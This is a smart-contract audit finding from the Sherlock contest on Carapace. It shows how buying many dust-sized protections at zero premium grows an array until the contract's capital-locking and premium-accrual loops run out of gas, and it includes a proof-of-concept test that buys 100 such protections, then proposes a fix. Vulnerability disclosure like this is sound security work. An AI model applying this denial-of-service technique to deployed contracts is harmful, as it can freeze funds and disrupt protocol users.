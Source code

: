 libratus

high

# Attacker can DoS the contract by making many small protection purchases

## Summary
Attacker can cause "out of gas" exceptions due to loops over `activeProtectionIndexes`

## Vulnerability Detail
When locking capital after a default, the code goes through `activeProtectionIndexes` for the corresponding pool to calculate the amount of locked funds
https://github.com/sherlock-audit/2023-02-carapace/blob/main/contracts/core/pool/ProtectionPool.sol#L382-L406

The same array is being looped over when accruing premiums:
https://github.com/sherlock-audit/2023-02-carapace/blob/main/contracts/core/pool/ProtectionPool.sol#L975-L996

If the array has too many records these two methods will revert due to "out of gas".

Several implementation details allow an attacker to inflate the size of this array:
- Protection can be bought an unlimited number of times for the same loan. There is no check that prevents that https://github.com/sherlock-audit/2023-02-carapace/blob/main/contracts/core/pool/ReferenceLendingPools.sol#L132
- Due to rounding, premium value will be zero for dust protection amount https://github.com/sherlock-audit/2023-02-carapace/blob/main/contracts/core/PremiumCalculator.sol#L118-L121

Therefore, an attacker can buy many protections for the same loan, each being a fraction of 1 USDC. Cost of attack will only include gas fees.

## Impact
Attacker can brick locking capital and premium accrual. Cost of attack depends purely on gas fees

## Code Snippet
The following test case creates 100 protections while not spending any USDC on premium. Maximum premium parameter passed to `buyProtection` is 0)

```diff
diff --git a/test/contracts/ProtectionPool.test.ts b/test/contracts/ProtectionPool.test.ts
index 5309949..22bcc58 100644
--- a/test/contracts/ProtectionPool.test.ts
+++ b/test/contracts/ProtectionPool.test.ts
@@ -793,6 +793,42 @@ const testProtectionPool: Function = (
           ).to.be.revertedWith("PremiumExceedsMaxPremiumAmount"); // actual premium: 2186.178950
         });
 
+        it("...manages to buy many protections for zero premium", async () => {
+          const _initialBuyerAccountId: BigNumber = BigNumber.from(1);
+          const _protectionAmount = parseUSDC("0.000001");
+            _purchaseParams = {
+              lendingPoolAddress: _lendingPool2,
+              nftLpTokenId: 590,
+              protectionAmount: _protectionAmount,
+              protectionDurationInSeconds: getDaysInSeconds(40)
+            };
+
+            for (let i = 0; i < 100; i++) {
+              expect(
+                await protectionPool
+                  .connect(_protectionBuyer1)
+                  .buyProtection(_purchaseParams, parseUSDC("0"))
+              )
+                .emit(protectionPool, "PremiumAccrued")
+                .to.emit(protectionPool, "BuyerAccountCreated")
+                .withArgs(PROTECTION_BUYER1_ADDRESS, _initialBuyerAccountId)
+                .to.emit(protectionPool, "CoverageBought")
+                .withArgs(
+                  PROTECTION_BUYER1_ADDRESS,
+                  _lendingPool2,
+                  _protectionAmount
+                );
+            }
+
+            expect(
+              (
+                await protectionPool.getActiveProtections(
+                  PROTECTION_BUYER1_ADDRESS
+                )
+              ).length
+            ).to.eq(100);
+        });
+
         it("...1st buy protection is successful", async () => {
           const _initialBuyerAccountId: BigNumber = BigNumber.from(1);
           const _initialPremiumAmountOfAccount: BigNumber = BigNumber.from(0);

```

## Tool used

Manual Review

## Recommendation
Denying buying multiple protections for the same loan may be enough to prevent this. Goldfinch doesn't have a lot of investors per pool and so the number of protections bought for a pool will be limited to that number.